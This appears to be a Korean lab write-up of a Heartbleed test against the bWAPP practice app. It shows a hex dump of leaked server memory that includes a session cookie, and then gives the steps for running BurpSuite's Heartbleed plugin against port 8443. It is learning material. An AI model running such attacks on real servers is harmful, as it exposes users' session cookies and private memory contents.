 ```bash
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 74 69 6F 6E  ....#.......tion
  00e0: 2F 66 6F 6E 74 2D 77 6F 66 66 3B 71 3D 30 2E 39  /font-woff;q=0.9
  00f0: 2C 2A 2F 2A 3B 71 3D 30 2E 38 0D 0A 41 63 63 65  ,*/*;q=0.8..Acce
  0100: 70 74 2D 4C 61 6E 67 75 61 67 65 3A 20 65 6E 2D  pt-Language: en-
  0110: 55 53 2C 65 6E 3B 71 3D 30 2E 35 0D 0A 41 63 63  US,en;q=0.5..Acc
  0120: 65 70 74 2D 45 6E 63 6F 64 69 6E 67 3A 20 67 7A  ept-Encoding: gz
  0130: 69 70 2C 20 64 65 66 6C 61 74 65 0D 0A 52 65 66  ip, deflate..Ref
  0140: 65 72 65 72 3A 20 68 74 74 70 73 3A 2F 2F 31 39  erer: https://19
  0150: 32 2E 31 36 38 2E 31 39 30 2E 31 34 33 3A 38 34  2.168.190.143:84
  0160: 34 33 2F 62 57 41 50 50 2F 73 74 79 6C 65 73 68  43/bWAPP/stylesh
  0170: 65 65 74 73 2F 73 74 79 6C 65 73 68 65 65 74 2E  eets/stylesheet.
  0180: 63 73 73 0D 0A 43 6F 6F 6B 69 65 3A 20 73 65 63  css..Cookie: sec
  0190: 75 72 69 74 79 5F 6C 65 76 65 6C 3D 30 3B 20 50  urity_level=0; P
  01a0: 48 50 53 45 53 53 49 44 3D 36 61 39 65 34 36 65  HPSESSID=6a9e46e
  01b0: 65 61 33 38 35 33 30 30 38 66 39 35 34 35 36 65  ea3853008f95456e
  01c0: 35 34 38 35 34 62 32 66 39 0D 0A 43 6F 6E 6E 65  54854b2f9..Conne
  01d0: 63 74 69 6F 6E 3A 20 63 6C 6F 73 65 0D 0A 0D 0A  ction: close....
  01e0: 1D 9A 5F 82 01 B6 D8 4A 66 C4 4D F5 05 45 B5 1B  .._....Jf.M..E..
  01f0: B1 F2 48 CF 97 E1 71 81 0E F7 D7 5B 37 06 0E AD  ..H...q....[7...
  0200: C6 AA 71 A9 34 EE AE 23 6D 74 D7 66 A0 4E 68 8F  ..q.4..#mt.f.Nh.
  0210: 0F 0F 0F 0F 0F 0F 0F 0F 0F 0F 0F 0F 0F 0F 0F 0F  ................

WARNING: server returned more data than it should - server is vulnerable!
```

### BurpSuite의 HeartBleed 플러그인 사용

![image](https://user-images.githubusercontent.com/28076542/52791274-e6b9fc00-30ab-11e9-914b-fc3b1dc94eef.png)

* Extender --> BApp Store --> HeartBleed --> Install로 설치 후
* Target --> Site map --> 8443 포트 사이트 우클릭 --> Heartbleed this! --> Port: 8443

### HeartBleed 진행 화면

![image](https://user-images.githubusercontent.com/28076542/52791828-3c42d880-30ad-11e9-90e3-e8e1daecaae2.png)

* 여기서 더 이상 진행 안 되고 이런게 있다는 것만 알아두기 ㅠ_ㅠ